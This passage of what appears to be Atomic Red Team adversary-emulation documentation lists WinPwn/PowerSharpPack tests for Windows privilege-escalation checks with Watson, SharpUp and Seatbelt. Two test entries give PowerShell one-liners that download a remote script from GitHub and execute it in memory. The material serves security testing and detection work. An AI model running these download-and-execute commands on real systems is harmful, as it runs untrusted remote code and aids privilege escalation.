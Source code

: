 
#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpWatson.ps1')
Invoke-watson
```






<br/>
<br/>

## Atomic Test #22 - WinPwn - PowerSharpPack - Sharpup checking common Privesc vectors
PowerSharpPack - Sharpup checking common Privesc vectors technique via function of WinPwn - Takes several minutes to complete.

**Supported Platforms:** Windows


**auto_generated_guid:** efb79454-1101-4224-a4d0-30c9c8b29ffc






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpUp.ps1')
Invoke-SharpUp -command "audit"
```






<br/>
<br/>

## Atomic Test #23 - WinPwn - PowerSharpPack - Seatbelt
PowerSharpPack - Seatbelt technique via function of WinPwn.

[Seatbelt](https://github.com/GhostPack/Seatbelt) is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.

**Supported Platforms:** Windows


**auto_generated_guid:** 5c16ceb4-ba3a-43d7-b848-a13c1f216d95



